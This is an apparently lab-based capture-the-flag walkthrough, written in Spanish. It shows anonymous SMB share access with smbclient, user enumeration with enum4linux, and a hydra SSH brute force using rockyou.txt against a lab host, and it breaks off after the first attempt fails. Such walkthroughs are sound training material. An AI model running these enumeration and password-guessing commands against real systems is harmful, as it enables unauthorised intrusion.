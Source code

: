 ````
[+] IP: 10.10.244.192:445       Name: 10.10.244.192             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (Samba Server 4.3.11-Ubuntu)
````
tenemos acceso de lectura a este archivo compartido vamos a ver que  hay dentro 

yo he usado este comando: 
````
smbclient //10.10.244.192/Anonymous -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
````
El parametro -N es para acceder sin usuario ni contraseña
Vamos a descargar staff.txt con 
````
get staff.txt
````
````
cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
````
tenemos dos posibles usuarios, podemos lanzar un hydra o al ssh o al smb client, voy a intentar primero el ssh ya que es más importante
Añadir que nos podriamos haber ahorrado esta enumeracion de smbclient con la herramienta enum4linux:
````
$ enum4linux 10.10.244.192 -a
...
Enumerating users using SID S-1-22-1 and logon username '', password ''                                         
                                                                                                                    
S-1-22-1-1000 Unix User\kay (Local User)                                                                            
S-1-22-1-1001 Unix User\jan (Local User)
....
````
Aqui tenemos los dos usuarios, vamos a lanzar un hydra con los dos users
````
hydra -t 64 -l kay -P rockyou.txt 10.10.244.192 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-14 07:02:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.244.192:22/
[ERROR] could not connect to ssh://10.10.244.192:22 - Socket error: disconnected
````
kay me da error voy a probar jan
````
````